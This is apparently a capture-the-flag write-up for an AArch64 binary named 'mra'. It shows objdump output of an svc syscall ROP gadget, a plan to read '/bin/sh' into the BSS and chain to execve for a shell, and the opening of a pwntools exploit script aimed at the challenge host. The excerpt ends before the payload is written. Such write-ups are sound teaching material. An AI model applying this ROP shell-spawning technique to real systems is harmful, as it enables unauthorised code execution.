 As stated in the summary above, statically-linked Linux binaries are fully stocked with ROP gadgets including `syscall`, or in this case `svc #0`.

To see what my options where I just used `/usr/bin/aarch64-linux-gnu-objdump -d mra | grep -A10 -B10 svc`:

```
  4007b4:       f85f83e8        ldur    x8, [sp, #-8]
  4007b8:       f85f03e0        ldur    x0, [sp, #-16]
  4007bc:       f85e83e1        ldur    x1, [sp, #-24]
  4007c0:       f85e03e2        ldur    x2, [sp, #-32]
  4007c4:       d4000001        svc     #0x0
  4007c8:       d10083ff        sub     sp, sp, #0x20
  4007cc:       d65f03c0        ret
```

This isn't the complete output, there are many more, but this first hit, is all we need.

This gadget will read _up_ stack the syscall number, and its first three parameters, then execute the syscall, after that the stack pointer will be moved _up_ to our next set of parameters, then `ret`, but `ret` to what?  Well, `syscall` again! (See [strong-arm](https://github.com/datajerk/ctf-write-ups/tree/master/wpictf2021/strong_arm) for a detailed write up on Aarch64 ROP).


### Attack

The plan is rather simple, use the _read_ syscall to read `/bin/sh` into the BSS, then chain to `execve` to get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
import urllib.parse

binary = context.binary = ELF('./mra')

'''
  4007b4:       f85f83e8        ldur    x8, [sp, #-8]
  4007b8:       f85f03e0        ldur    x0, [sp, #-16]
  4007bc:       f85e83e1        ldur    x1, [sp, #-24]
  4007c0:       f85e03e2        ldur    x2, [sp, #-32]
  4007c4:       d4000001        svc     #0x0
'''

binary.symbols['syscall'] = 0x4007b4

if args.REMOTE:
    p = remote('mra.challenges.ooo', 8000)
else:
    if args.GDB:
        p = process(('qemu-'+context.arch+' -g 9000 -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
    else:
        p = process(('qemu-'+context.arch+' -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
```
